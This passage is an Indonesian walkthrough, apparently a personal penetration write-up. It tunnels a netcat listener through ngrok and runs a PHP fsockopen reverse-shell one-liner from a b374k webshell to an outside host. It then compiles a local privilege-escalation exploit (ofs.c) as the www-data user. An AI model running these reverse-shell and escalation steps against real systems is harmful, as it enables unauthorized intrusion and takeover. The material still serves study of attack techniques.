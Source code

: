 ```

Session Status                online
Account                       *nama user* (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://4.tcp.ngrok.io:10849 -> localhost:1337

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00 


```

Lihat pada forwarding, `4.tcp.ngrok.io` adalah subdomain dan `10849` adalah port, yang akan kita gunakan dalam reverse shell. Setiap koneksi pada `4.tcp.ngrok.io:10849` akan diteruskan (forward) ke `localhost:1337`.

1. Pada PC/Laptop, jalankan perintah `nc -l -v -p 1337`. Ini membuat PC/Laptop kita akan *listening* pada port 1337. 
   
2. Pada b347k webshell, saya menjalankan perintah `php -r '$sock=fsockopen("4.tcp.ngrok.io",10849);exec("/bin/sh -i <&3 >&3 2>&3");'`. Perintah tersebut menggunakan PHP, ada banyak perintah untuk reverse shell yang dapat digunakan, seperti Ruby, BASH, Python, atau GCC. Saya memilih PHP karena saya sudah coba beberapa bahasa lain dan dalam kasus saya hanya PHP yang bekerja.

![php-fsockopen](/assets/img/posts/firststep/php-fsockopen.png)

4. Jika berhasil, maka terminal anda akan muncul seperti berikut:

```
Listening on (nama_pc/laptop) 1337
Connection received on localhost 46760
/bin/sh: 0: can't access tty; job control turned off
$
```

**Eskalasi**

Sebelum memulai, baiknya pastikan dulu user yang sedang digunakan dengan perintah `id` atau `whoami`, hasilnya seharusnya
```
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

Artinya adalah saat ini saya adalah user biasa (www-data) dengan privilege terbatas. Untuk mengeksalasi privilege, saya meng-compile file eksploit yang sudah saya upload tadi, dengan perintah `gcc nama_file.c -o nama_file_output` dalam hal ini saya menggunakan perintah `gcc ofs.c -o ofs`. Tidak ada error apapun. Setelah itu, saya lanjutkan dengan eksekusi menggunakan perintah `./nama_file` dalam hal ini saya menggunakan `./ofs` yang menampilkan output berikut
